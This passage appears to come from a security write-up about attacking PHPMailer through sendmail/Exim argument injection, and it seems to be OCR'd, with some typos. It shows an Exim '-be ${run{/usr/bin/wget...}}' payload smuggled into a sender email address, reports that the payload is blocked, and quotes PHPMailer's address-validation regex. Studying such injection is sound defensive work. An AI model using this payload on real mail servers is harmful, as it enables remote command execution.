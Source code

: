 In first instance it looks like we can just use the same payload that we used for mail() but we can see that is not working conrrectly:

``bash
Payload:
ss@email.com -be ${run{/usr/bin/wget${substr{10}{1}{$tod_log}}http://127.0.0.1/test}}
Commandebugger:
Received: /usr/sbin/sendmail
Received:
Received:
Received:
```

Extra parameters sare being blocked, this is due to the email Format filter applied by PHPMailer in "presend()" function:

```php
[...]
public static function validateAddress($address, $patternselect = null)
    {

[...]

switch ($patternselect) {
            case 'pcre8':
                /**
                 * Uses the same RFC5322 regex on which FILTER_VALIDATE_EMAIL is based, but allows dotless domains.
                 * @link http://squiloople.com/2009/12/20/email-address-validation/
                 * @copyright 2009-2010 Michael Rushton
                 * Feel free to use and redistribute this code. But please keep this copyright notice.
                 */
                return (boolean)preg_match(
                    '/^(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){255,})(?!(?>(?1)"?(?>\\\[ -~]|[^"])"?(?1)){65,}@)' .
                    '((?>(?>(?>((?>(?>(?>\x0D\x0A)?[\t ])+|(?>[\t ]*\x0D\x0A)?[\t ]+)?)(\((?>(?2)' .
                    '(?>[\x01-\x08\x0B\x0C\x0E-\'*-\[\]-\x7F]|\\\[\x00-\x7F]|(?3)))*(?2)\)))+(?2))|(?2))?)' .
                    '([!#-\'*+\/-9=?^-~-]+|"(?>(?2)(?>[\x01-\x08\x0B\x0C\x0E-!#-\[\]-\x7F]|\\\[\x00-\x7F]))*' .
                    '(?2)")(?>(?1)\.(?1)(?4))*(?1)@(?!(?1)[a-z0-9-]{64,})(?1)(?>([a-z0-9](?>[a-z0-9-]*[a-z0-9])?)' .
                    '(?>(?1)\.(?!(?1)[a-z0-9-]{64,})(?1)(?5)){0,126}|\[(?:(?>IPv6:(?>([a-f0-9]{1,4})(?>:(?6)){7}' .
                    '|(?!(?:.*[a-f0-9][:\]]){8,})((?6)(?>:(?6)){0,6})?::(?7)?))|(?>(?>IPv6:(?>(?6)(?>:(?6)){5}:' .
                    '|(?!(?:.*[a-f0-9]:){6,})(?8)?::(?>((?6)(?>:(?6)){0,4}):)?))?(25[0-5]|2[0-4][0-9]|1[0-9]{2}' .
                    '|[1-9]?[0-9])(?>\.(?9)){3}))\])(?1)$/isD',
                    $address
                );
[...]
```
